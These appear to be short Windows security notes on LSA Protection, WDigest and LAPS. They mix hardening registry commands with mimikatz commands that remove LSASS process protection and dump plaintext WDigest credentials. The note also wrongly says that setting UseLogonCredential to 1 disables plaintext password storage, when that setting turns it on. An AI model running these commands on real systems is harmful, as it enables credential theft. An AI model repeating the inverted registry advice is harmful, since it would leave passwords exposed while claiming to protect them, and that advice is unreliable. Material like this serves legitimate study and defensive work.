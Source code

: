 # LSA Protection

In Windows 8.1 and later microsoft has provided addition protection for the LSA to prevent untrusted processess from being able to read its memory or inject code. This will prevent `mimikatz` `sekurlsa::logonpasswords` for working properly.

To activate this protection set to 1 the value of `RunAsPPL`:

```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA /v RunAsPPL

reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA /v RunAsPPL /t REG_DWORD /d 1
```
This LSA protection can be bypass using mimikatz `mimidrv.sys` driver:

```
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
```

# Disable WDigest

_Windows Digest (WDigest)_ is a authentication protocol introduced in Windows XP and was designed to be used with HTTP protocol which means that **plain-text passwords** are stored in the LSASS.

```powershell
Invoke-Mimikatz -Command '"sekurlsa::wdigest"'
```

This behaviour can be disabled via registry setting to 1 the value of `UseLogonCredential` and `Negotiate`

```
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential

reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v Negotiate /t REG_DWORD /d 1
```

> **Note**: Microsoft has this protocol **enabled by default** in Windows XP, Windows 8.0, Windows Server 2003 and Windows Server 2012.

# LAPS

LAPS (Local Administrator Password Solution) is a centralized storage of passwords for local administrator in active directory with a periodic randomizing where read permissions are access controlled. Computer objects where LAPS is activated has two new attributes:

* `ms-mcs-AdmPwd` attribute stores the clear text pasword.

* `ms-mcs-AdmPwdExpitarionTime` controls the password change.

Although the password is stored in clear text, te transmission is encrypted. With careful enumeration, it is possible to retrieve which users can access the clear text password providing a list of attractive targets.
